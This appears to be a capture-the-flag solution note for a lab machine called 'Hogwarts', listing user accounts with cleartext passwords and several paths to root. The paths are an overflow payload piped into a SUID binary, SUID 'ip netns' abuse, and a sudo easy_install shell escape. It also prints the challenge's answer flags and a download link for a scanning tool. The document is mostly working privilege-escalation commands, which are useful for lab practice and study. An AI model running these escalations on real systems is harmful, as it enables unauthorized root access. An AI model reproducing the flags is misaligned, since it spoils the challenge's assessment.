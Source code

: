 # HOGWARTS -->

you need rustscan for this machine download here: https://github.com/Macchimne/RUSTSCAN

# Users:

hermoine

neville:eos34dqa7qgwq8@006oudrri1

draco:slytherin

# Paths to root

/etc/room_of_requirement is a suid binary that will grant a root shell with:
{ echo -e "012345678901234567890123\xbe\xba\xfe\xca"; cat; } | /etc/room_of_requirement

(/bin/ip)  has the suid bit set. this can get root via:

ip netns add foo
ip netns exec foo /bin/sh -p



hermoine can run date as sudo, though this just allows file read as far as i can tell with date -f file



draco can run easy_install as root, which can privesc via:

TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF


# Flags:

THM{Albus_Perciva1_Wu1fric_Brian_Dumb1ed0re}

THM{its_wingardium_laviosaa_Ron}

THM{Yeah_1_swallowed_the_sn1tch.}

THM{I_unarm3d_dumbled0re}
